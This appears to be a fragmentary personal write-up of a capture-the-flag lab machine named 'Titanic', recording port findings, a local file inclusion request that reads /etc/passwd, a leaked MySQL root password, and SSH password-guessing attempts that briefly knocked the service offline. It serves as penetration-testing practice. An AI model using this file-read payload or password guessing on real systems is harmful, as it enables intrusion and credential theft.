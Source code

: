 
Titanic

10.10.11.55
titanic.htb

ports 22, 80

lfi - `//download?ticket=/etc/passwd`

developer:x:1000:1000:developer:/home/developer:/bin/bash

dev.titanic.htb
possible user: administrator

`MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'`

have to test it (added tried paswords)
```sh
┌──(kali㉿proxli)-[~]
└─$ ssh administrator@titanic.htb                                                     
The authenticity of host 'titanic.htb (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'titanic.htb' (ED25519) to the list of known hosts.
administrator@titanic.htb's password: MySQLP@$$w0rd!
Permission denied, please try again.
administrator@titanic.htb's password: admin
Permission denied, please try again.
administrator@titanic.htb's password: password123

```
oups, this or something right here totally crashed the ssh server. it's still hanging and
```sh
┌──(kali㉿proxli)-[~]
└─$ ssh developer@titanic.htb
ssh: connect to host titanic.htb port 22: Connection refused
```
works again after a long time

trying again, odd
```sh
┌──(kali㉿proxli)-[~]
└─$ ssh developer@titanic.htb
developer@titanic.htb's password: 
Connection closed by 10.10.11.55 port 22
                                                                                                               
┌──(kali㉿proxli)-[~]
└─$ ssh developer@titanic.htb
developer@titanic.htb's password: 
Permission denied, please try again.
developer@titanic.htb's password: 
Permission denied, please try again.
developer@titanic.htb's password: 
developer@titanic.htb: Permission denied (publickey,password).
                                                                                                               
┌──(kali㉿proxli)-[~]
└─$ ssh developer@titanic.htb
ssh: connect to host titanic.htb port 22: Connection refused
                                                                                                               
┌──(kali㉿proxli)-[~]
└─$ ssh developer@titanic.htb
ssh: connect to host titanic.htb port 22: Connection refused
```
it seems to refuse for a bit after trying to connect

![[Images/Pasted image 20250327152948.png]]

```json
{"name": "Rose DeWitt Bukater", "email": "rose.bukater@titanic.htb", "phone": "643-999-021", "date": "2024-08-22", "cabin": "Suite"}
```

```json
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}
```

